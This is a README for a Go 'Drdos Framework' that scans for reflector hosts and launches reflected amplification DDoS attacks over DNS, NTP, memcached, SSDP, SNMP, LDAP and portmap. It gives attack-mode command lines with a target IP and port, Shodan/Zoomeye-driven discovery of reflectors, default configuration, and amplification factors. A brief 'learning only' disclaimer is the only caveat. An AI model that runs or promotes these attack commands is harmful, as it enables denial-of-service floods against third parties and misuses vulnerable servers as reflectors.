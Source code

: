# Drdos Framework

Drdos Framework is my outcome of drdos working. I try to write this like a real framework. Here is the pic of the demo.

![image](https://github.com/chriskaliX/drdos-framework/blob/master/imgs/demo.png)

![image](https://github.com/chriskaliX/drdos-framework/blob/master/imgs/web.png)

## Declaration

This tool is for learning only. Not for illegal use.

## Intruduction

Drdos Framework can check the vulner of drdos iplist. Also it's got the attack mode to start drdos attack.

## Prepare

1. Linux server
2. Golang env

## Usage

- **Command**

    **check Mode** [Good stability, won't fail even with millions of IP address]

    ```shell
    go run main.go -m c -s xx.xx.xx.xx -type dns -api -o test.txt # API Mode
    go run main.go -m c -s xx.xx.xx.xx -type dns -range xx.xx.xx.xx/24 -o test.txt # CIDR
    go run main.go -m c -s xx.xx.xx.xx -type dns -f input.txt -o test.txt # Extract from file
    ```

    **attack Mode**

    ```shell
    go run main.go -m a -f xxx -type dns -t xx.xx.xx.xx -p xx  # be care of the NAT
    ```

    [ * ] 注意 : 运行 `go run main.go --help` 来查看帮助
- **WEB Mode**

    `go run main.go -m h` `Username`: `admin`，`password` will be printed in the console.

### Some help

`--type` should be one of `dns`,`mem`,`ntp`,`snmp`,`ssdp`,`portmap`,`ldap`
`-o` the outputfile is saved in `/data/results/`

### Configuration

The configuration file is in `config/config.go`，and here is the default

```go
package config

const (
    ListenPort     = 50000
    Threshold      = 100
    WaitTime       = 10
    Blacklists     = "/data/blacklists/blacklists"
    MaxAtktime     = 300
    AttackInterval = 0
    ShodanApi      = ""
    ShodanPage     = 10
    ZoomeyeApi     = ""
    ZoomeyePage    = 20
    HttpPort       = 65000
)
```

## Q&A

Q: How much flow can this do?
A: It depends on how many source ip you get, and the type of attack. Memcached nearly 200 times, ntp 10~15 times, ssdp 10 times, dns 5 times...

## Protocol Supported

|Port|Protocol|
|:-:|:-:|
|53|dns|
|111|portmap|
|123|ntp|
|161|snmp|
|389|ldap|
|1900|ssdp|
|11211|memcache|

## Update plan

It will be deleted once I achieve

- [x] HTTP API
  - [x] File Upload and a good display
- [ ] Search engine API
  - [x] Zoomeye
  - [x] Shodan
  - [ ] Fofa
- [x] Blacklist of attack
- [x] Use Context to quit gently
- [ ] check improvement
- [ ] Protocol Support
  - [ ] OpenVPN
- [ ] Use sqlite to save
